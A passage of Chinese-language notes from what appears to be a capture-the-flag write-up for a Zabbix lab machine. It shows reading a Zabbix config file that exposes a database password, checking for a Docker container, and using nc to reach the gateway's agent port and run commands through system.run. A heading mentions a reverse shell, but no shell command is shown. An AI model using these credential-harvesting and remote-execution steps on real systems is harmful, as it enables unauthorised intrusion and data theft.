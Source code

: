 ```
本意是查找user.txt

结果显示了一个web的路径。
/usr/share/zabbix/robots.txt

cat /usr/share/zabbix/conf/zabbix.conf.php

$DB['TYPE']     = 'MYSQL';
$DB['SERVER']   = 'localhost';
$DB['PORT']     = '0';
$DB['DATABASE'] = 'zabbixdb';
$DB['USER']     = 'zabbix';
$DB['PASSWORD'] = 'f.YMeMd$pTbpY3-449';

mysql -u zabbix -p 
f.YMeMd$pTbpY3-449     #输入密码
页面提示
ERROR 1044 (42000): Access denied for user 'zabbix'@'localhost' to database 'f.YMeMd-449mysql'
连接失败
---
ls -al /
-rwxr-xr-x   1 root root    0 Sep 30 21:33 .dockerenv
发现一个docker目录，说明可能是虚拟机容器
```
## 反弹10.10.10.108的shell到本机

### 信息搜集
```
netstat -nr
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
0.0.0.0         172.17.0.1      0.0.0.0         UG        0 0          0 eth0
172.17.0.0      0.0.0.0         255.255.0.0     U         0 0          0 eth0
查看路由表
---
ifconfig，本地ip为172.17.0.2
---
nc -nv 172.17.0.1 10050
用nc扫描网关的的10050端口，为open状态
---
echo system.run[ ifconfig ] | nc 172.17.0.1 10050
通过zabbix server system.run的系统特性，可以进行命令执行
```